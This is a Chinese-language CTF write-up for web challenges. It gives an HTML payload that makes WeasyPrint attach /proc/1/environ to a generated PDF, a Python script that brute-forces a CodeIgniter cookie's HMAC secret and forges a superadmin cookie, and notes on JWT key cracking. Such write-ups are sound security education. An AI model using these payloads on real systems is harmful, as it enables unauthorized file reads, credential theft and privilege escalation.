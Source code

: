 # web
### CSDN_To_PDF V1.2
#ssrf 
WeasyPrint 61.2 html渲染为pdf
写一个html
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
</head>
<body>
<link rel="attachment" href="file:///proc/1/environ">
</body>
</html>
```

binwalk -e 提取pdf文件即可看到

### baby-Codeigniter
一个登录页面   /index.php/login

cookie是一个类似于php序列化后的东西

---
弱口令admin/123456登录后发现上传文件需要superadmin,发现cookie里有这个字段,但是最后有一串hash做校验,
需要爆破,注意不需要url解码,爆破得到123456
```python
import hmac
import urllib.parse
import hashlib
import sys
import time

def EncryCookie(cookie,secret):
    cookie = urllib.parse.unquote_plus(cookie)
    cookielen=len(cookie)-40
    cookie = cookie[:cookielen].replace('"superadmin";b:0;}','"superadmin";b:1;}')
    hmacstr=hmac.new(secret.encode("utf-8"),cookie.encode("utf-8"),hashlib.sha1).hexdigest()
    return urllib.parse.quote_plus(cookie+hmacstr)


def CrackSecret(cookie,secret):
    cookie = urllib.parse.unquote_plus(cookie)
    cookielen=len(cookie)-40
    hmac_check = cookie[cookielen:]
    cookie = cookie[:cookielen]
    hmacstr=hmac.new(secret.encode("utf-8"),cookie.encode("utf-8"),hashlib.sha1).hexdigest()
    return hmac_check == hmacstr

if __name__ == "__main__":
    cookie = sys.argv[1]
    secrets = []
    with open("secret.txt") as f:
        secrets = f.readlines()
    print("开始爆破:")
    starttime=time.time()
    for secret in secrets:
        secret=secret.strip("\n")
        result  = CrackSecret(cookie,secret)
        if result == True:
            print("[+]Secret:"+secret)
            encrycookie=EncryCookie(cookie,secret)
            print(encrycookie)
            endtime=time.time()
            print("耗时:"+str(endtime-starttime))
            exit(0)
        else:
            print("[-]Secret:"+secret)
```


### 组合拳
首先注册一个账号,登录提示权限不够
尝试忘记密码收到一份邮件
发现存在jwt,爆破得到密钥,重置admin的密码

admin邮箱  `Administrator@163.com`

---
发现后台存在任意命令执行,但是运行时间为10天后,需要修改这个参数
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-04   20:27
